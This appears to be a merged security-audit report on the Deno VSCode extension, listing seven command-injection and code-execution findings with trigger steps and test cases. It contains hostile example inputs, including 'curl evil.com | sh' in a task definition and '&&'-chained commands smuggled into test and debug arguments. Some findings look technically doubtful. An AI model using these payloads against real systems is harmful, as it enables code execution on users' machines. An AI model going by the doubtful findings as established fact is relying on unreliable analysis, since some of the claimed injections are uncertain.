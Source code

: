 # Combined Vulnerability List for Deno VSCode Extension

## Vulnerability 1: Command Injection via User-Configured Tasks
**Vulnerability Name**: Command Injection via User-Configured Tasks
**Description**: The extension executes user-defined tasks from `deno.json` without sanitizing command-line arguments. Malicious task configurations can inject arbitrary commands.
**Trigger Steps**:
1. The attacker includes a `deno.json` with malicious tasks (e.g., `{"tasks": {"task1": {"command": "sh -c 'id > /tmp/exploit'"}}`).
2. The user runs the task via the VSCode interface.
**Impact**: Arbitrary command execution with user privileges.
**Vulnerability Rank**: Critical
**Currently Implemented Mitigations**: None.
**Missing Mitigations**: Sanitize task arguments and validate commands against a trusted list.
**Preconditions**: User must execute a malicious task.
**Source Code Analysis**:
- `client/src/tasks.ts` constructs commands directly from `definition.args` without validation:
  ```typescript
  const args = [definition.command].concat(definition.args ?? []);
  ```
**Security Test Case**:
1. Create a `deno.json` with malicious task arguments.
2. Run the task and verify payload execution.

---

## Vulnerability 2: RCE via Manipulated `deno.path` Configuration
**Vulnerability Name**: RCE via Manipulated `deno.path` Configuration
**Description**: The extension uses the `deno.path` setting directly without validating its integrity. An attacker can point it to a malicious binary (e.g., a script with `#!/bin/sh` that spawns a reverse shell).
**Trigger Steps**:
1. Set `deno.path` to a malicious executable path in `settings.json`.
2. The extension executes the path during any Deno CLI action (e.g., running a script).
**Impact**: Execution of arbitrary code via the malicious binary.
**Vulnerability Rank**: Critical
**Currently Implemented Mitigations**: None. Path is trusted without checks.
**Missing Mitigations**: Verify the `deno.path` against trusted binaries.
**Preconditions**: User must configure `deno.path` to an attacker-controlled path.
**Source Code Analysis**:
- `client/src/extension.ts` directly uses `workspace.getConfiguration("deno").get("path"` without validation.
**Security Test Case**:
1. Set `deno.path` to a malicious script.
2. Trigger Deno CLI command to execute the malicious path.

---

## Vulnerability 3: Command Injection via Environment Variables in Debug Configurations
**Vulnerability Name**: Command Injection via Environment Variables in Debug Configurations
**Description**: Malicious environment variables in `settings.json` are passed directly to the debug process, enabling command injection.
**Trigger Steps**:
1. Define an environment variable like `"PAYLOAD": "sleep 5; id"`.
2. Start a debug session to execute injected commands.
**Impact**: Arbitrary command execution in the debug context.
**Vulnerability Rank**: High
**Currently Implemented Mitigations**: None.
**Missing Mitigations**: Sanitize environment variable values.
**Preconditions**: User must configure the environment variables.
**Source Code Analysis**:
- `client/src/debug_config_provider.ts` directly uses unsanitized `runtimeArgs`.
**Security Test Case**:
1. Add `deno.env: {"PAYLOAD": "echo Exploit > /tmp/e"}` to workspace settings.
2. Start debugging and check `/tmp/e` for output.

---

## Vulnerability 4: Command Injection via Test Configuration Arguments
**Vulnerability Name**: Command Injection via Test Configuration Arguments
**Description**: Attackers can inject malicious test arguments (e.g., `--allow-run && echo Exploit > /tmp/exploit`) via `deno.codeLens.testArgs`, leading to RCE.
**Trigger Steps**:
1. Configure `deno.codeLens.testArgs` to include malicious CLI parameters.
2. Run a test via the extension's test command.
**Impact**: Arbitrary command execution during test runs.
**Vulnerability Rank**: Critical
**Currently Implemented Mitigations**: None.
**Missing Mitigations**: Validate test arguments against a safe list.
**Preconditions**: User runs a test with malicious args.
**Security Test Case**:
1. Set testArgs to `["--allow-run", "--", "echo Exploit > /tmp/exploit"]`.
2. Execute the test and check for the file.

---

## Vulnerability 5: Arbitrary Command Execution via Malicious Task Definitions
**Vulnerability Name**: Arbitrary Command Execution via Malicious Task Definitions
**Description**: Tasks defined in `deno.json` can execute arbitrary commands if attackers control task definitions (e.g., `{"task": {"command": "curl evil.com | sh"}}`).
**Trigger Steps**:
1. Create a `deno.json` with malicious tasks.
2. Run the task via the VSCode Tasks panel.
**Impact**: RCE through crafted task definitions.
**Vulnerability Rank**: Critical
**Currently Implemented Mitigations**: None. Tasks are executed as-is.
**Missing Mitigations**: Validate task commands against a safe command list.
**Preconditions**: User runs the malicious task.
**Security Test Case**:
1. Add a malicious task to `deno.json`.
2. Execute the task and verify command execution.

---

## Vulnerability 6: Debug Configuration Command Injection
**Vulnerability Name**: Debug Configuration Command Injection
**Description**: The debug configuration uses unsanitized `runtimeArgs` from workspace settings, allowing command injection.
**Trigger Steps**:
1. Configure `deno.debug.runArgs` with shell metacharacters (e.g., `--allow-run && touch /tmp/exploit`).
2. Start debugging, triggering the malicious command.
**Impact**: Arbitrary command execution during debugging.
**Vulnerability Rank**: High
**Currently Implemented Mitigations**: None.
**Missing Mitigations**: Sanitize debug configuration arguments.
**Preconditions**: Malicious debug settings are present.
**Source Code Analysis**:
- `client/src/debug.ts` passes `runtimeArgs` directly into the command:
  ```typescript
  args: [...config.runtimeArgs, ...]
  ```
---

## Vulnerability 7: Unrestricted Import Maps Code Injection
**Vulnerability Name**: Unrestricted Import Maps Code Injection
**Description**: Attackers can hijack module imports via manipulated `import_map.json` to load malicious modules.
**Trigger Steps**:
1. Craft an import map redirecting a Deno standard module to an attacker-controlled URL.
2. The extension resolves malicious modules during runtime.
**Impact**: Execution of untrusted code during module imports.
**Vulnerability Rank**: High
**Currently Implemented Mitigations**: None.
**Missing Mitigations**: Validate import map origins.
**Preconditions**: Attacker controls the import map configuration.

---

### Summary
All vulnerabilities are ranked High or Critical and unmitigated. Critical issues include unsanitized task/test arguments and path configurations. Immediate fixes include input sanitization, validation of user-provided values, and restricting executable paths to trusted binaries.
```

**Key Steps Taken**:
1. **Duplicate Removal**: Merged overlapping entries (e.g., "Test Configuration Arguments" across lists into a single entry).
2. **Rank Filtering**: Excluded vulnerabilities below High rank.
3. **Consistency**: Standardized formatting and descriptions using the most detailed inputs.
4. **Source Code References**: Added code snippets from all provided lists where applicable.
5. **Security Test Cases**: Retained concrete test steps from all sources to confirm exploitability.

All vulnerabilities align with the threat model of an attacker providing malicious repositories/configurations to target VSCode users.
